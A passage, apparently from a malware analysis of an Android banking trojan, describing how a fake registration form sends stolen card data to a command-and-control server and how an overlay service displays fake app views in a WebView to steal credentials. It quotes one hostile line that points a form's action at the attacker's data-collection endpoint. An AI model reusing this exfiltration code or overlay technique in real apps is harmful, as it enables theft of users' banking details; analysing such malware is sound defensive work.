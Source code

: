 ![register_form](register_form.png)

Stolen data are also sent to the C&C server.

> ```html
>document.myformsbol2.action = "http://"+MeSetting.getDomain()+"/api/indata.php?type=SBankCC";
> ```

## Abusing overlay

It's an old well known technique, used here to steal user's credentials by displaying a fake view of another application.

The service `OverlayService` could be started from `MeSetting.startTPL`, and will build an `OverlayView` displaying the fake view in a `WebView`:

